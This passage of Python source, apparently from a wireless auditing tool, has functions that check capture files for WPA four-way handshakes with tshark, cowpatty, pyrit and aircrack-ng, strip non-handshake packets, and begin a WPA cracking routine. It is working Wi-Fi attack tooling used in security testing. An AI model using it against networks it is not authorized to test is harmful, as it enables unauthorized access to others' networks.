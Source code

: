 fields[4].lower() if src == target.bssid.lower() and clients.count(dst) == 0: clients.append(dst) elif dst == target.bssid.lower() and clients.count(src) == 0: clients.append(src) # Check each client for a handshake for client in clients: msg_num = 1 # Index of message in 4-way handshake (starts at 1) for line in lines: if line.find('appears to have been cut short') != -1: continue if line.find('Running as user "root"') != -1: continue if line.strip() == '': continue # Sanitize tshark's output, separate into fields while line[0] == ' ': line = line[1:] while line.find(' ') != -1: line = line.replace(' ', ' ') fields = line.split(' ') # Sometimes tshark doesn't display the full header for "Key (msg 3/4)" on the 3rd handshake. # This catches this glitch and fixes it. if len(fields) < 8: continue elif len(fields) == 8: fields.append('(msg') fields.append('3/4)') src = fields[2].lower() # Source MAC address dst = fields[4].lower() # Destination MAC address if len(fields) == 12: # "Message x of y" format msg = fields[9][0] else: msg = fields[-1][0] # First, third msgs in 4-way handshake are from the target to client if msg_num % 2 == 1 and (src != target.bssid.lower() or dst != client): continue # Second, fourth msgs in 4-way handshake are from client to target elif msg_num % 2 == 0 and (dst != target.bssid.lower() or src != client): continue # The messages must appear in sequential order. try: if int(msg) != msg_num: continue except ValueError: continue msg_num += 1 # We need the first 4 messages of the 4-way handshake # Although aircrack-ng cracks just fine with only 3 of the messages... if msg_num >= 4: return True return False def has_handshake_cowpatty(self, target, capfile, nonstrict=True): """ Uses cowpatty to check for a handshake. Returns "True" if handshake is found, false otherwise. """ if not program_exists('cowpatty'): return False # Call cowpatty to check if capfile contains a valid handshake. cmd = ['cowpatty', '-r', capfile, # input file '-s', target.ssid, # SSID '-c'] # Check for handshake # Uses frames 1, 2, or 3 for key attack if nonstrict: cmd.append('-2') proc = Popen(cmd, stdout=PIPE, stderr=DN) proc.wait() response = proc.communicate()[0] if response.find('incomplete four-way handshake exchange') != -1: return False elif response.find('Unsupported or unrecognized pcap file.') != -1: return False elif response.find('Unable to open capture file: Success') != -1: return False return True def has_handshake_pyrit(self, target, capfile): """ Uses pyrit to check for a handshake. Returns "True" if handshake is found, false otherwise. """ if not program_exists('pyrit'): return False # Call pyrit to "Analyze" the cap file's handshakes. cmd = ['pyrit', '-r', capfile, 'analyze'] proc = Popen(cmd, stdout=PIPE, stderr=DN) proc.wait() hit_essid = False for line in proc.communicate()[0].split('\n'): # Iterate over every line of output by Pyrit if line == '' or line == None: continue if line.find("AccessPoint") != -1: hit_essid = (line.find("('" + target.ssid + "')") != -1) and \ (line.lower().find(target.bssid.lower()) != -1) #hit_essid = (line.lower().find(target.bssid.lower())) else: # If Pyrit says it's good or workable, it's a valid handshake. if hit_essid and (line.find(', good, ') != -1 or line.find(', good*, ') != -1 or line.find(', workable, ') != -1): return True return False def has_handshake_aircrack(self, target, capfile): """ Uses aircrack-ng to check for handshake. Returns True if found, False otherwise. """ if not program_exists('aircrack-ng'): return False crack = 'echo "" | aircrack-ng -a 2 -w - -b ' + target.bssid + ' ' + capfile proc_crack = Popen(crack, stdout=PIPE, stderr=DN, shell=True) proc_crack.wait() txt = proc_crack.communicate()[0] return (txt.find('Passphrase not in dictionary') != -1) def has_handshake(self, target, capfile): """ Checks if .cap file contains a handshake. Returns True if handshake is found, False otherwise. """ valid_handshake = True tried = False if self.RUN_CONFIG.WPA_HANDSHAKE_TSHARK: tried = True valid_handshake = self.has_handshake_tshark(target, capfile) if valid_handshake and self.RUN_CONFIG.WPA_HANDSHAKE_COWPATTY: tried = True valid_handshake = self.has_handshake_cowpatty(target, capfile) # Use CowPatty to check for handshake. if valid_handshake and self.RUN_CONFIG.WPA_HANDSHAKE_COWPATTY: tried = True valid_handshake = self.has_handshake_cowpatty(target, capfile) # Check for handshake using Pyrit if applicable if valid_handshake and self.RUN_CONFIG.WPA_HANDSHAKE_PYRIT: tried = True valid_handshake = self.has_handshake_pyrit(target, capfile) # Check for handshake using aircrack-ng if valid_handshake and self.RUN_CONFIG.WPA_HANDSHAKE_AIRCRACK: tried = True valid_handshake = self.has_handshake_aircrack(target, capfile) if tried: return valid_handshake print R + ' [!]' + O + ' unable to check for handshake: all handshake options are disabled!' self.RUN_CONFIG.exit_gracefully(1) def strip_handshake(self, capfile): """ Uses Tshark or Pyrit to strip all non-handshake packets from a .cap file File in location 'capfile' is overwritten! """ output_file = capfile if program_exists('pyrit'): cmd = ['pyrit', '-r', capfile, '-o', capfile + '.temp', 'stripLive'] call(cmd, stdout=DN, stderr=DN) if os.path.exists(capfile + '.temp'): rename(capfile + '.temp', output_file) elif program_exists('tshark'): # strip results with tshark cmd = ['tshark', '-r', capfile, # input file '-R', 'eapol || wlan_mgt.tag.interpretation', # filter '-2', # -R is deprecated and requires -2 '-w', capfile + '.temp'] # output file proc_strip = call(cmd, stdout=DN, stderr=DN) rename(capfile + '.temp', output_file) else: print R + " [!]" + O + " unable to strip .cap file: neither pyrit nor tshark were found" + W ########################## # WPA CRACKING FUNCTIONS # ########################## def wpa_crack(capfile, RUN_CONFIG): """ Cracks cap file using aircrack-ng This is crude and slow. If people want to crack